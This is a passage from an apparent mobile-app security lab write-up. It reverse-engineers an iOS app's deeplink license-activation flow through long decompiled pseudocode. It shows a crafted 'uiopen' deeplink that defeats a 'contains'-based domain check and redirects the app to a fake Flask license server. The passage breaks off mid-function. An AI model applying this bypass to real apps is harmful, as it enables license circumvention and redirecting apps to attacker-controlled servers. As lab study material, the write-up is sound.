                      (&$$demangling_cache_variable_for_type_metadata_for_[Swift.String_:_Any]);
            plVar7 = &local_f8;
            _swift_dynamicCast(plVar7,auStack_80,puVar1,puVar6,6);
            if (((ulong)plVar7 & 1) == 0) {
              local_288 = 0;
            }
            else {
              local_288 = local_f8;
            }
            if (local_288 == 0) {
              _swift_unknownObjectRelease(json_response);
              pUVar10 = (UIViewController *)0x1;
              SVar13 = Swift::String::init("Malformed response from server",0x1e,1);
              Runtime::$showToast(SVar13,param_1,pUVar10);
              Runtime::showToast(SVar13,param_1,param_6);
              local_2a0 = SVar13.bridgeObject;
              _swift_bridgeObjectRelease(local_2a0);
            }
            else {
              local_100 = local_288;
              _swift_unknownObjectRelease(json_response);
              local_110 = Swift::String::init("status",6,1);
              pcVar11 = 
              PTR_$$protocol_witness_table_for_Swift.String_:_Swift.Hashable_in_Swift_100024600;
              Swift::Dictionary::$get_subscript
                        (auStack_a0,&local_110,local_288,
                         PTR_$$type_metadata_for_Swift.String_100024408,puVar1);
              $$outlined_destroy_of_Swift.String(&local_110);
              if (local_88 == 0) {
                $$outlined_destroy_of_Any?(auStack_a0);
                local_2c8 = (char *)0x0;
                local_2c0 = (void *)0x0;
              }
              else {
                ppcVar8 = &local_130;
                pcVar11 = (char *)0x6;
                _swift_dynamicCast(ppcVar8,auStack_a0,puVar1,
                                   PTR_$$type_metadata_for_Swift.String_100024408);
                if (((ulong)ppcVar8 & 1) == 0) {
                  local_2e0 = (char *)0x0;
                  local_2d8 = (void *)0x0;
                }
                else {
                  local_2e0 = local_130;
                  local_2d8 = local_128;
                }
                local_2c8 = local_2e0;
                local_2c0 = local_2d8;
              }
              if (local_2c0 == (void *)0x0) {
                pUVar10 = (UIViewController *)0x1;
                SVar13 = Swift::String::init("Invalid response from server",0x1c,1);
                Runtime::$showToast(SVar13,param_1,pUVar10);
                Runtime::showToast(SVar13,param_1,param_6);
                local_308 = SVar13.bridgeObject;
                _swift_bridgeObjectRelease(local_308);
                _swift_bridgeObjectRelease(local_288);
                outlined_consume(_Var3);
                _objc_release(local_1c0);
                goto LAB_1000084b0;
              }
              local_120 = local_2c8;
              local_118 = local_2c0;
              SVar14 = Swift::String::init("healthy",7,1);
              _swift_bridgeObjectRetain();
              SVar13.bridgeObject = local_2c0;
              SVar13.str = local_2c8;
              SVar15.bridgeObject = puVar12;
              SVar15.str = pcVar11;
              bVar4 = Swift::String::==_infix(SVar13,SVar14,SVar15);
              local_320 = SVar14.bridgeObject;
              _swift_bridgeObjectRelease(local_320);
              _swift_bridgeObjectRelease(local_320);
              if (bVar4) {
                (**(code **)((*param_7 & *(ulong *)PTR__swift_isaMask_100024630) + 0x88))
                          (param_8,param_9);
              }
              else {
                pUVar10 = (UIViewController *)0x1;
                SVar13 = Swift::String::init("Server not healthy",0x12,1);
                Runtime::$showToast(SVar13,param_1,pUVar10);
                Runtime::showToast(SVar13,param_1,param_6);
                local_338 = SVar13.bridgeObject;
                _swift_bridgeObjectRelease(local_338);
              }
              _swift_bridgeObjectRelease(local_2c0);
              _swift_bridgeObjectRelease(local_288);
            }
          }
          outlined_consume(_Var3);
          _objc_release(local_1c0);
        }
      }
      else {
        pUVar10 = (UIViewController *)0x1;
        SVar13 = Swift::String::init("Unexpected response from server",0x1f,1);
        Runtime::$showToast(SVar13,param_1,pUVar10);
        Runtime::showToast(SVar13,param_1,param_6);
        local_348 = SVar13.bridgeObject;
        _swift_bridgeObjectRelease(local_348);
        _objc_release(local_1c0);
      }
    }
  }
  else {
    pUVar10 = (UIViewController *)0x1;
    SVar13 = Swift::String::init("Cannot connect to the host",0x1a,1);
    Runtime::$showToast(SVar13,param_1,pUVar10);
    Runtime::showToast(SVar13,param_1,param_6);
    local_1b0 = SVar13.bridgeObject;
    _swift_bridgeObjectRelease(local_1b0);
    _swift_errorRelease(param_5);
  }
LAB_1000084b0:
  if (*(long *)PTR____stack_chk_guard_100024260 == local_38) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  ___stack_chk_fail();
}

```

At lines 113-123 there's a check for the HTTP response status code, raising a "Malformed response from server" error when the status code is not 200:



Even though that's the exact error received when opening the deeplink `runtime://starttrial?server=192.168.1.6:8000/mhl.pages.dev/runtime&trialKey=1234-5678-ABCD`, the intercepted request in the previous `Burpsuite` screenshot clearly shows that this requirement is satisfied (the status code 200 was received). 

Further code analysis revealed that there's a JSON deserialization of the HTTP response body which raises the same error when failed:



I've then confirmed that the "malformed response" error isn't received anymore when the response contains an actual valid JSON; I've done this by intercepting and manipulating the response using `Burpsuite`:





The "malformed response" is then replaced by some new error - "Invalid response from server":


Code analysis showed that the application is expecting the `status` field in the JSON response; when not provided, the previous error is returned: 



Moreover, if the value in the `status` field is **not** `healthy`, then the error "Server not healthy" is returned:



as shown below:


At this point, instead of continuing manipulating responses using `Burpsuite`, I've built a simple `Flask` application, implementing a `/health` endpoint. 

As previously described, the application code (lines 199 to 214) expects the value `mhl.pages.dev` to be present in the `server` value of the deeplink.

- The purpose of this control is to assure that only `mhl.pages.dev` domain or its subdomains can be used as license server. However, the usage of `contains` isn't strong enough and can be easily bypassed  as follows:

```shell
uiopen "runtime://starttrial?server=192.168.1.6:8000/mhl.pages.dev/runtime&trialKey=1234-5678-ABCD"
```



This value will satisfy the requirements and allow to specify an arbitrary license server.


Following the snippet of the `Flask` application implementing the `/health` endpoint:



The `Flask`application is then started as follows:



By opening the deeplink `runtime://starttrial?server=192.168.1.6:8000/mhl.pages.dev/runtime&trialKey=1234-5678-ABCD`, the "health" step is successfully passed; a new HTTP request to a `/activate` endpoint is sent:



This request is sent by the function `activateServer` in class `Runtime.SubscribeController`:

```c
/* Runtime.SubscribeController.activateServer(server: Swift.String) -> () */

void __thiscall
Runtime::SubscribeController::activateServer(SubscribeController *this,String server)

{
  URLRequest *pUVar1;
  undefined *puVar2;
  long lVar3;
  URL UVar4;
  char *pcVar5;
  URLRequest UVar6;
  void *pvVar7;
  undefined8 uVar8;
  DefaultStringInterpolation DVar9;
  UIViewController *sender;
  long extraout_x8;
  long extraout_x8_00;
  double in_d0;
  String SVar10;
  URLRequest UStack_1c0;
  String local_1b8;
  NSURLRequestCachePolicy local_1a8;
  void *local_1a0;
  NSURLRequest *local_198;
  char *local_190;
  char *local_188;
  code *local_180;
  SubscribeController *local_178;
  undefined *local_170;
  long local_168;
  ulong local_160;
  undefined *local_158;
  ulong local_150;
  URLRequest *local_148;
  undefined8 local_140;
  ulong local_138;
  ulong local_130;
  URL local_128;
  ulong local_120;
  long local_118;
  __int64 local_110;
  void *local_108;
  char *local_100;
  void *local_f8;
  void *local_f0;
  undefined **local_e8;
  undefined8 local_e0;
  DefaultStringInterpolation local_d8;
  void *local_d0;
  long local_c8;
  long local_c0;
  uint local_b4;
  undefined *local_b0;
  char *local_a8;
  undefined *local_a0;
  undefined4 local_98;
  undefined4 local_94;
  code *local_90;
  undefined *local_88;
  code *local_80;
  undefined *local_78;
  char *local_70;
  void *local_68;
  undefined *local_60;
  undefined8 local_58;
  SubscribeController *local_50;
  SubscribeController *local_48;
  char *local_40;
  void *local_38;
  long local_30;
  URLRequest *local_28;
  SubscribeController *local_20;
  
  local_f8 = server.bridgeObject;
  local_100 = server.str;
  local_110 = 0x10;
  local_28 = (URLRequest *)0x0;
  local_30 = 0;
  local_40 = (char *)0x0;
  local_38 = (void *)0x0;
  local_48 = (SubscribeController *)0x0;
  local_50 = (SubscribeController *)0x0;
  local_a8 = (char *)0x0;
  local_140 = 0;
  local_178 = this;
  local_20 = this;
  local_170 = (undefined *)Foundation::URLRequest::typeMetadataAccessor();
  local_168 = *(long *)(local_170 + -8);
  local_160 = *(long *)(local_168 + 0x40) + 0xfU & 0xfffffffffffffff0;
  (*(code *)PTR____chkstk_darwin_100024208)();
  puVar2 = (undefined *)((long)&UStack_1c0 - local_160);
  local_150 = extraout_x8 + 0xfU & 0xfffffffffffffff0;
  local_158 = puVar2;
  (*(code *)PTR____chkstk_darwin_100024208)();
  pUVar1 = (URLRequest *)(puVar2 + -local_150);
  puVar2 = &$$demangling_cache_variable_for_type_metadata_for_Foundation.URL?;
  local_148 = pUVar1;
  local_28 = pUVar1;
  ___swift_instantiateConcreteTypeFromMangledName();
  local_138 = *(long *)(*(long *)(puVar2 + -8) + 0x40) + 0xfU & 0xfffffffffffffff0;
  (*(code *)PTR____chkstk_darwin_100024208)(local_140);
  lVar3 = (long)pUVar1 - local_138;
  local_c0 = lVar3;
  local_b0 = (undefined *)Foundation::URL::typeMetadataAccessor();
  local_c8 = *(long *)(local_b0 + -8);
  local_130 = *(long *)(local_c8 + 0x40) + 0xfU & 0xfffffffffffffff0;
  pcVar5 = local_100;
  pvVar7 = local_f8;
  (*(code *)PTR____chkstk_darwin_100024208)();
  puVar2 = (undefined *)(lVar3 - local_130);
  local_120 = extraout_x8_00 + 0xfU & 0xfffffffffffffff0;
  local_128.unknown = puVar2;
  (*(code *)PTR____chkstk_darwin_100024208)();
  local_118 = (long)puVar2 - local_120;
  local_48 = this;
  local_40 = pcVar5;
  local_38 = pvVar7;
  local_30 = local_118;
  _objc_retain(this);
  uVar8 = 1;
  local_50 = this;
  local_60 = (undefined *)Swift::DefaultStringInterpolation::init(local_110,1);
  local_e8 = &local_60;
  local_b4 = 1;
  DVar9.unknown = (undefined *)0x1;
  local_58 = uVar8;
  SVar10 = Swift::String::init("http://",7,1);
  local_108 = SVar10.bridgeObject;
  Swift::DefaultStringInterpolation::appendLiteral(SVar10,DVar9);
  _swift_bridgeObjectRelease(local_108);
  local_70 = local_100;
  local_68 = local_f8;
  Swift::DefaultStringInterpolation::$appendInterpolation
            (&local_70,PTR_$$type_metadata_for_Swift.String_100024408,
             PTR_$$protocol_witness_table_for_Swift.String_:_Swift.CustomStringConvertible_in_Swift_100024620
             ,
             PTR_$$protocol_witness_table_for_Swift.String_:_Swift.TextOutputStreamable_in_Swift_100024720
            );
  DVar9.unknown = (undefined *)(ulong)(local_b4 & 1);
  SVar10 = Swift::String::init("/activate",9,(__int8)(local_b4 & 1));
  local_f0 = SVar10.bridgeObject;
  Swift::DefaultStringInterpolation::appendLiteral(SVar10,DVar9);
  _swift_bridgeObjectRelease(local_f0);
  local_d8.unknown = local_60;
  local_e0 = local_58;
  _swift_bridgeObjectRetain();
  $$outlined_destroy_of_Swift.DefaultStringInterpolation(local_e8);
  SVar10 = Swift::String::init(local_d8);
  local_d0 = SVar10.bridgeObject;
  Foundation::URL::$init();
  _swift_bridgeObjectRelease(local_d0);
  lVar3 = local_c0;
  (**(code **)(local_c8 + 0x30))(local_c0,local_b4,local_b0);
  pUVar1 = local_148;
  if ((int)lVar3 == 1) {
    $$outlined_destroy_of_Foundation.URL?(local_c0);
    sender = (UIViewController *)0x1;
    local_1b8 = Swift::String::init("Invalid URL",0xb,1);
    $showToast(local_1b8,in_d0,sender);
    showToast(local_1b8,in_d0,(UIViewController *)local_178);
    _swift_bridgeObjectRelease(local_1b8.bridgeObject);
    _objc_release(local_178);
  }
  else {
    (**(code **)(local_c8 + 0x20))(local_118,local_c0,local_b0);
    UVar4.unknown = local_128.unknown;
    (**(code **)(local_c8 + 0x10))(local_128.unknown,local_118,local_b0);
    $$default_argument_1_of_Foundation.URLRequest.init(url:_Foundation.URL,cachePolicy:___C.NSURLRequestCachePolicy,timeoutInterval:_Swift.Double)_->_Foundation.URLRequest
              ();
    local_1a8.unknown = UVar4.unknown;
    $$default_argument_2_of_Foundation.URLRequest.init(url:_Foundation.URL,cachePolicy:___C.NSURLRequestCachePolicy,timeoutInterval:_Swift.Double)_->_Foundation.URLRequest
              ();
    Foundation::URLRequest::init(local_128,local_1a8,in_d0);
    SVar10 = Swift::String::init("POST",4,1);
    pcVar5 = SVar10.str;
    Foundation::URLRequest::$set_httpMethod(pUVar1);
    (**(code **)((*(ulong *)local_178 & *(ulong *)PTR__swift_isaMask_100024630) + 0x58))();
    UVar6.unknown = local_158;
    local_190 = pcVar5;
    (**(code **)(local_168 + 0x10))(local_158,local_148,local_170);
    local_198 = Foundation::URLRequest::_bridgeToObjectiveC(UVar6);
    local_180 = *(code **)(local_168 + 8);
    (*local_180)(local_158,local_170);
    _objc_retain(local_178);
    _objc_retain(local_178);
    _swift_bridgeObjectRetain(local_f8);
    puVar2 = &DAT_100024998;
    _swift_allocObject(&DAT_100024998,0x30,7);
    *(SubscribeController **)(puVar2 + 0x10) = local_178;
    *(SubscribeController **)(puVar2 + 0x18) = local_178;
    *(char **)(puVar2 + 0x20) = local_100;
    *(void **)(puVar2 + 0x28) = local_f8;
    local_80 = 
    $$partial_apply_forwarder_for_closure_#1_@Sendable_(Foundation.Data?,__C.NSURLResponse?,Swift.Error?)_->_()_in_Runtime.SubscribeController.activateServer(server:_Swift.String)_->_()
    ;
    local_a0 = PTR___NSConcreteStackBlock_100024248;
    local_98 = 0x42000000;
    local_94 = 0;
    local_90 = 
    $$reabstraction_thunk_helper_from_@escaping_@callee_guaranteed_@Sendable_(@guaranteed_Foundation.Data?,@guaranteed___C.NSURLResponse?,@guaranteed_Swift.Error?)_->_()_to_@escaping_@callee_unowned_@convention(block)_@Sendable_(@unowned___C.NSData?,@unowned___C.NSURLResponse?,@unowned___C.NSError?)_->_()
    ;
    local_88 = &_block_descriptor.6;
    local_78 = puVar2;
    local_1a0 = __Block_copy(&local_a0);
    _swift_release(local_78);
    pcVar5 = local_190;
    _objc_msgSend(local_190,"dataTaskWithRequest:completionHandler:",local_198,local_1a0);
    _objc_retainAutoreleasedReturnValue();
    local_188 = pcVar5;
    __Block_release(local_1a0);
    _objc_release(local_198);
    _objc_release(local_190);
    local_a8 = local_188;
    _objc_msgSend(local_188,"resume");
    _objc_release(local_188);
    (*local_180)(local_148,local_170);
    (**(code **)(local_c8 + 8))(local_118,local_b0);
    _objc_release(local_178);
  }
  return;
}


```

In particular, a POST request is sent to the URL `http://<server value>/activate`



Similar to the `/health` request code, the HTTP request is handled by the lambda function `$closure_#1_@Sendable_(Foundation.Data?,__C.NSURLResponse?,Swift.Error?)_->_()_in_Runtime.SubscribeController.activateServer(server:_Swift.String)_->_`:


Following the integral code:

```c

void $$closure_#1_@Sendable_(Foundation.Data?,__C.NSURLResponse?,Swift.Error?)_->_()_in_Runtime.SubscribeController.activateServer(server:_Swift.String)_->_()
               (double param_1,undefined *param_2,ulong param_3,long param_4,long param_5,
               UIViewController *param_6,ulong *param_7,undefined8 param_8,undefined8 param_9)

{
  bool bVar1;
  long lVar2;
  long status_code;
  undefined *reponse_json;
  long *plVar3;
  UUID UVar4;
  undefined1 *puVar5;
  undefined8 uVar6;
  ulong uVar7;
  long lVar8;
  UIViewController *pUVar9;
  ulong *puVar10;
  undefined8 uVar11;
  tuple2.conflict1 tVar12;
  undefined1 auStack_390 [16];
  undefined8 local_380;
  String local_378;
  undefined8 local_368;
  String local_360;
  String local_350;
  uint local_340;
  uint local_33c;
  long local_338;
  long local_330;
  String local_328;
  long local_318;
  long local_310;
  long local_308;
  long local_300;
  long local_2f8;
  long local_2f0;
  long local_2e8;
  long local_2e0;
  long local_2d8;
  long local_2d0;
  String *token_field_str;
  String local_2c0;
  long local_2b0;
  long local_2a8;
  long local_2a0;
  undefined *local_298;
  undefined1 *local_290;
  undefined *local_288;
  ulong local_280;
  Data local_278;
  undefined8 local_270;
  undefined8 local_268;
  undefined *local_260;
  undefined8 local_258;
  NSData *local_250;
  undefined *local_248;
  String local_240;
  undefined *local_230;
  ulong local_228;
  long local_220;
  String local_218;
  long local_208;
  long local_200;
  long local_1f8;
  long local_1f0;
  long local_1e8;
  long local_1e0;
  long local_1d8;
  String local_1d0;
  long local_1c0;
  long local_1b8;
  long local_1b0;
  undefined *local_1a8;
  undefined *local_1a0;
  ulong local_198;
  long local_190;
  UIViewController *local_188;
  ulong *local_180;
  undefined8 local_178;
  undefined8 local_170;
  ulong local_168;
  long local_160;
  undefined1 *local_158;
  ulong local_150;
  long local_148;
  long local_140;
  long local_138;
  long local_130;
  long local_128;
  long local_120;
  long local_118;
  String local_110;
  long local_100;
  long local_f8;
  undefined8 local_f0;
  undefined8 local_e8;
  undefined8 local_e0;
  long local_d8;
  undefined8 local_d0;
  undefined8 local_c8;
  ulong *local_c0;
  UIViewController *local_b8;
  long local_b0;
  long local_a8;
  undefined1 response_json_dict [24];
  long local_88;
  undefined1 auStack_80 [32];
  undefined8 local_60;
  undefined *local_58;
  ulong local_50;
  undefined8 local_48;
  ulong local_40;
  long local_38;
  
  local_1a8 = PTR_$$type_metadata_for_Any_1000246f8 + 8;
  local_38 = *(long *)PTR____stack_chk_guard_100024260;
  local_48 = 0;
  local_40 = 0;
  local_a8 = 0;
  local_b0 = 0;
  local_b8 = (UIViewController *)0x0;
  local_c0 = (ulong *)0x0;
  local_d0 = 0;
  local_c8 = 0;
  local_d8 = 0;
  local_58 = (undefined *)0x0;
  local_50 = 0;
  local_f0 = 0;
  local_100 = 0;
  local_120 = 0;
  local_118 = 0;
  local_138 = 0;
  reponse_json = &$$demangling_cache_variable_for_type_metadata_for_Foundation.UUID?;
  local_1a0 = param_2;
  local_198 = param_3;
  local_190 = param_4;
  local_188 = param_6;
  local_180 = param_7;
  local_178 = param_8;
  local_170 = param_9;
  local_140 = param_5;
  ___swift_instantiateConcreteTypeFromMangledName();
  local_160 = *(long *)(*(long *)(reponse_json + -8) + 0x40);
  local_168 = local_160 + 0xfU & 0xfffffffffffffff0;
  lVar2 = local_140;
  uVar7 = local_198;
  lVar8 = local_190;
  pUVar9 = local_188;
  puVar10 = local_180;
  uVar6 = local_178;
  uVar11 = local_170;
  (*(code *)PTR____chkstk_darwin_100024208)(local_1a0);
  status_code = -local_168;
  local_150 = local_160 + 0xfU & 0xfffffffffffffff0;
  local_158 = auStack_390 + status_code;
  (*(code *)PTR____chkstk_darwin_100024208)();
  local_148 = (long)(auStack_390 + status_code) - local_150;
  local_d0 = uVar6;
  local_c8 = uVar11;
  local_c0 = puVar10;
  local_b8 = pUVar9;
  local_b0 = lVar2;
  local_a8 = lVar8;
  local_40 = uVar7;
  _swift_errorRetain();
  if (local_140 == 0) {
    _objc_retain(local_190);
    if (local_190 == 0) {
      local_1d8 = 0;
    }
    else {
      local_1b8 = local_190;
      local_1e8 = local_190;
      reponse_json = &_OBJC_CLASS_$_NSHTTPURLResponse;
      _objc_opt_self(&_OBJC_CLASS_$_NSHTTPURLResponse);
      status_code = local_1e8;
      _swift_dynamicCastObjCClass(local_1e8,reponse_json);
      local_1f0 = status_code;
      local_1e0 = status_code;
      if (status_code == 0) {
        local_1f8 = 0;
        _objc_release(local_1e8);
        local_1f0 = local_1f8;
      }
      local_1d8 = local_1f0;
    }
    local_200 = local_1d8;
    if (local_1d8 == 0) {
      pUVar9 = (UIViewController *)0x1;
      local_218 = Swift::String::init("Unexpected response from server",0x1f,1);
      Runtime::$showToast(local_218,param_1,pUVar9);
      Runtime::showToast(local_218,param_1,local_188);
      _swift_bridgeObjectRelease(local_218.bridgeObject);
    }
    else {
      local_208 = local_1d8;
      local_220 = local_1d8;
      local_d8 = local_1d8;
      status_code = local_1d8;
      _objc_msgSend(local_1d8,"statusCode");
      if (status_code == 200) {
        $outlined_copy();
        if ((local_198 & 0xf000000000000000) == 0xf000000000000000) {
          pUVar9 = (UIViewController *)0x1;
          local_240 = Swift::String::init("Malformed response from server",0x1e,1);
          Runtime::$showToast(local_240,param_1,pUVar9);
          Runtime::showToast(local_240,param_1,local_188);
          _swift_bridgeObjectRelease(local_240.bridgeObject);
          _objc_release(local_220);
        }
        else {
          local_230 = local_1a0;
          local_228 = local_198;
          local_280 = local_198;
          local_278.unknown = local_1a0;
          local_58 = local_1a0;
          local_50 = local_198;
          local_270 = 0;
          local_60 = 0;
          reponse_json = &_OBJC_CLASS_$_NSJSONSerialization;
          _objc_opt_self();
          local_260 = reponse_json;
          outlined_copy((_Representation)(__int8)local_278.unknown);
          local_250 = Foundation::Data::_bridgeToObjectiveC(local_278);
          outlined_consume((_Representation)(__int8)local_278.unknown);
          __C::NSJSONReadingOptions::typeMetadataAccessor();
          tVar12 = Swift::$_allocateUninitializedArray((__int16)local_270);
          local_268 = tVar12._0_8_;
          __C::NSJSONReadingOptions::$lazy_protocol_witness_table_accessor();
          (extension_Swift)::Swift::SetAlgebra::$init();
          local_e8 = local_60;
          reponse_json = local_260;
          _objc_msgSend(local_260,"JSONObjectWithData:options:error:",local_250,local_e0,&local_e8);
          _objc_retainAutoreleasedReturnValue();
          local_258 = local_e8;
          local_248 = reponse_json;
          _objc_retain();
          uVar6 = local_60;
          local_60 = local_258;
          _objc_release(uVar6);
          _objc_release(local_250);
          if (local_248 == (undefined *)0x0) {
            local_380 = local_60;
            uVar6 = local_60;
            Foundation::$_convertNSErrorToError();
            local_368 = uVar6;
            _objc_release(local_380);
            _swift_willThrow();
            _swift_errorRetain(local_368);
            local_f0 = local_368;
            pUVar9 = (UIViewController *)0x1;
            local_378 = Swift::String::init("Malformed response from server",0x1e,1);
            Runtime::$showToast(local_378,param_1,pUVar9);
            Runtime::showToast(local_378,param_1,local_188);
            _swift_bridgeObjectRelease(local_378.bridgeObject);
            _swift_errorRelease(local_368);
            _swift_errorRelease(local_368);
          }
          else {
            local_288 = local_248;
            local_298 = local_248;
            local_290 = auStack_80;
            Swift::$_bridgeAnyObjectToAny();
            reponse_json = &$$demangling_cache_variable_for_type_metadata_for_[Swift.String_:_Any];
            ___swift_instantiateConcreteTypeFromMangledName
                      (&$$demangling_cache_variable_for_type_metadata_for_[Swift.String_:_Any]);
            plVar3 = &local_f8;
            _swift_dynamicCast(plVar3,local_290,local_1a8,reponse_json,6);
            if (((ulong)plVar3 & 1) == 0) {
              local_2a0 = 0;
            }
            else {
              local_2a0 = local_f8;
            }
            local_2a8 = local_2a0;
            if (local_2a0 == 0) {
              _swift_unknownObjectRelease(local_298);
              pUVar9 = (UIViewController *)0x1;
              local_2c0 = Swift::String::init("Malformed response from server",0x1e,1);
              Runtime::$showToast(local_2c0,param_1,pUVar9);
              Runtime::showToast(local_2c0,param_1,local_188);
              _swift_bridgeObjectRelease(local_2c0.bridgeObject);
            }
            else {
              local_2b0 = local_2a0;
              local_2d0 = local_2a0;
              local_100 = local_2a0;
              _swift_unknownObjectRelease(local_298);
              local_110 = Swift::String::init("token",5,1);
              token_field_str = &local_110;
              Swift::Dictionary::$get_subscript
                        (response_json_dict,token_field_str,local_2d0,
                         PTR_$$type_metadata_for_Swift.String_100024408,local_1a8,
                         PTR_$$protocol_witness_table_for_Swift.String_:_Swift.Hashable_in_Swift_100024600
                        );
              $$outlined_destroy_of_Swift.String(token_field_str);
              if (local_88 == 0) {
                local_2e8 = 0;
                $$outlined_destroy_of_Any?(response_json_dict);
                local_2e0 = local_2e8;
                local_2d8 = local_2e8;
              }
              else {
                plVar3 = &local_130;
                _swift_dynamicCast(plVar3,response_json_dict,local_1a8,
                                   PTR_$$type_metadata_for_Swift.String_100024408,6);
                if (((ulong)plVar3 & 1) == 0) {
                  local_2f8 = 0;
                  local_2f0 = 0;
                }
                else {
                  local_2f8 = local_130;
                  local_2f0 = local_128;
                }
                local_2e0 = local_2f8;
                local_2d8 = local_2f0;
              }
              local_308 = local_2d8;
              local_300 = local_2e0;
              if (local_2d8 == 0) {
                pUVar9 = (UIViewController *)0x1;
                local_328 = Swift::String::init("Invalid response from server",0x1c,1);
                Runtime::$showToast(local_328,param_1,pUVar9);
                Runtime::showToast(local_328,param_1,local_188);
                _swift_bridgeObjectRelease(local_328.bridgeObject);
                _swift_bridgeObjectRelease(local_2d0);
                outlined_consume((_Representation)(__int8)local_278.unknown);
                _objc_release(local_220);
                goto LAB_100009650;
              }
              local_318 = local_2e0;
              local_310 = local_2d8;
              local_338 = local_2d8;
              local_330 = local_2e0;
              local_120 = local_2e0;
              local_118 = local_2d8;
              Foundation::UUID::$init();
              $$outlined_init_with_copy_of_Foundation.UUID?(local_148,local_158);
              UVar4 = Foundation::UUID::typeMetadataAccessor();
              puVar5 = local_158;
              (**(code **)(*(long *)(UVar4.unknown + -8) + 0x30))(local_158,1);
              bVar1 = (int)puVar5 == 1;
              if (!bVar1) {
                $$outlined_destroy_of_Foundation.UUID?(local_158);
              }
              local_33c = (uint)bVar1;
              local_340 = local_33c;
              $$outlined_destroy_of_Foundation.UUID?(local_148);
              if ((local_340 & 1) == 0) {
                (**(code **)((*local_180 & *(ulong *)PTR__swift_isaMask_100024630) + 0x90))
                          (local_178,local_170,local_330,local_338);
              }
              else {
                pUVar9 = (UIViewController *)0x1;
                local_350 = Swift::String::init("Invalid token format",0x14,1);
                Runtime::$showToast(local_350,param_1,pUVar9);
                Runtime::showToast(local_350,param_1,local_188);
                _swift_bridgeObjectRelease(local_350.bridgeObject);
              }
              _swift_bridgeObjectRelease(local_338);
              _swift_bridgeObjectRelease(local_2d0);
            }
          }
          outlined_consume((_Representation)(__int8)local_278.unknown);
          _objc_release(local_220);
        }
      }
      else {
        pUVar9 = (UIViewController *)0x1;
        local_360 = Swift::String::init("Unexpected response from server",0x1f,1);
        Runtime::$showToast(local_360,param_1,pUVar9);
        Runtime::showToast(local_360,param_1,local_188);
        _swift_bridgeObjectRelease(local_360.bridgeObject);
        _objc_release(local_220);
      }
    }
  }
  else {
    local_1b0 = local_140;
    local_1c0 = local_140;
    local_138 = local_140;
    pUVar9 = (UIViewController *)0x1;
    local_1d0 = Swift::String::init("Cannot connect to host for activation",0x25,1);
    Runtime::$showToast(local_1d0,param_1,pUVar9);
    Runtime::showToast(local_1d0,param_1,local_188);
    _swift_bridgeObjectRelease(local_1d0.bridgeObject);
    _swift_errorRelease(local_1c0);
  }
LAB_100009650:
  if (*(long *)PTR____stack_chk_guard_100024260 == local_38) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  ___stack_chk_fail();
}
```

Lines 290 to 323 try to obtain the value from a JSON field named "token"; when this fails, the error "Invalid reponse from server" is returned:



Moreover, the provided `token` value is expected to be a valid UUID, returning the error "Invalid token format" otherwise:



I've then implemented a new `/activate` endpoint in the `Flask` application which returns a random UUID in the `token` field:



After opening the same deeplink again, the application did a request to the endpoint `/download` after successfully checking the status and retrieving the token:



This HTTP request is generated by the function `getLicenseFile` in class `Runtime.SubscribeController`:

```c
/* Runtime.SubscribeController.getLicenseFile(server: Swift.String, withToken: Swift.String) -> ()
    */

void __thiscall
Runtime::SubscribeController::getLicenseFile
          (SubscribeController *this,String server,String withToken)

{
  URLRequest *pUVar1;
  SubscribeController *pSVar2;
  undefined *puVar3;
  char *pcVar4;
  long lVar5;
  URL UVar6;
  void *pvVar7;
  URLRequest UVar8;
  undefined8 uVar9;
  char *pcVar10;
  DefaultStringInterpolation DVar11;
  UIViewController *sender;
  void *pvVar12;
  long extraout_x8;
  long extraout_x8_00;
  double in_d0;
  String SVar13;
  String forHTTPHeaderField;
  URLRequest UStack_1f0;
  String local_1e8;
  NSURLRequestCachePolicy local_1d8;
  undefined4 local_1cc;
  void *local_1c8;
  void *local_1c0;
  NSURLRequest *local_1b8;
  void *local_1b0;
  void *local_1a8;
  code *local_1a0;
  SubscribeController *local_198;
  undefined *local_190;
  long local_188;
  ulong local_180;
  undefined *local_178;
  ulong local_170;
  URLRequest *local_168;
  undefined8 local_160;
  ulong local_158;
  char *local_150;
  void *local_148;
  ulong local_140;
  URL local_138;
  ulong local_130;
  long local_128;
  __int64 local_120;
  void *local_118;
  char *local_110;
  void *local_108;
  void *local_100;
  undefined **local_f8;
  undefined8 local_f0;
  DefaultStringInterpolation local_e8;
  void *local_e0;
  long local_d8;
  long local_d0;
  uint local_c4;
  undefined *local_c0;
  void *local_b8;
  undefined *local_b0;
  undefined4 local_a8;
  undefined4 local_a4;
  code *local_a0;
  undefined *local_98;
  code *local_90;
  undefined *local_88;
  char *local_80;
  void *local_78;
  undefined *local_70;
  undefined8 local_68;
  SubscribeController *local_60;
  SubscribeController *local_58;
  char *local_50;
  void *local_48;
  char *local_40;
  void *local_38;
  long local_30;
  URLRequest *local_28;
  SubscribeController *local_20;
  
  local_148 = withToken.bridgeObject;
  local_150 = withToken.str;
  local_108 = server.bridgeObject;
  local_110 = server.str;
  local_120 = 0x10;
  local_28 = (URLRequest *)0x0;
  local_30 = 0;
  local_40 = (char *)0x0;
  local_38 = (void *)0x0;
  local_50 = (char *)0x0;
  local_48 = (void *)0x0;
  local_58 = (SubscribeController *)0x0;
  local_60 = (SubscribeController *)0x0;
  local_b8 = (void *)0x0;
  local_160 = 0;
  local_198 = this;
  local_20 = this;
  local_190 = (undefined *)Foundation::URLRequest::typeMetadataAccessor();
  local_188 = *(long *)(local_190 + -8);
  local_180 = *(long *)(local_188 + 0x40) + 0xfU & 0xfffffffffffffff0;
  (*(code *)PTR____chkstk_darwin_100024208)();
  puVar3 = (undefined *)((long)&UStack_1f0 - local_180);
  local_170 = extraout_x8 + 0xfU & 0xfffffffffffffff0;
  local_178 = puVar3;
  (*(code *)PTR____chkstk_darwin_100024208)();
  pUVar1 = (URLRequest *)(puVar3 + -local_170);
  puVar3 = &$$demangling_cache_variable_for_type_metadata_for_Foundation.URL?;
  local_168 = pUVar1;
  local_28 = pUVar1;
  ___swift_instantiateConcreteTypeFromMangledName();
  local_158 = *(long *)(*(long *)(puVar3 + -8) + 0x40) + 0xfU & 0xfffffffffffffff0;
  (*(code *)PTR____chkstk_darwin_100024208)(local_160);
  lVar5 = (long)pUVar1 - local_158;
  local_d0 = lVar5;
  local_c0 = (undefined *)Foundation::URL::typeMetadataAccessor();
  local_d8 = *(long *)(local_c0 + -8);
  local_140 = *(long *)(local_d8 + 0x40) + 0xfU & 0xfffffffffffffff0;
  pcVar4 = local_110;
  pvVar7 = local_108;
  pcVar10 = local_150;
  pvVar12 = local_148;
